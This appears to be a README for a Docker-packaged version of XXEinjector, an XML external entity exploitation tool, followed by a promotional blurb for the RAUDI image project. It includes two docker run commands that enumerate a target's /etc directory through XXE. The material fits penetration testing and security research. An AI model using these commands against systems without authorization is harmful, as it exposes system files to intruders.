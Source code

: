 # oxml_xxe

## Official Documentation
Reference: https://github.com/enjoiz/XXEinjector

## Description
XXEinjector automates retrieving files using direct and out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

## Usage
Enumerating /etc directory in HTTPS application:
```
docker run -ti --rm -v ~/xxeinjector:/xxeinjector secsi/xxeinjector --host=192.168.0.2 --path=/etc --file=/xxeinjector/req.txt --ssl
```
Enumerating using direct exploitation:
```
docker run -ti --rm -v ~/xxeinjector:/xxeinjector secsi/xxeinjector  --file=/xxeinjector/req.txt --path=/etc --direct=UNIQUEMARKSTART,UNIQUEMARKEND
```

## 🐳 RAUDI: Regularly and Automatically Updated Docker Images

Hello, friend. This Docker Image has been created by RAUDI. What is RAUDI?

**RAUDI** (Regularly and Automatically Updated Docker Images) automatically generates and keep updated a series of *Docker Images* through *GitHub Actions* for tools that are not provided by the developers.

**RAUDI** is what will save you from creating and managing a lot of Docker Images manually. Every time a software is updated you need to update the Docker Image if you want to use the latest features, the dependencies are not working anymore. 

This is messy and time-consuming. 

Don't worry anymore, we got you covered.

If you want to contribute, give us a star or take a quick look at the source code of **RAUDI** click [here](https://github.com/cybersecsi/RAUDI).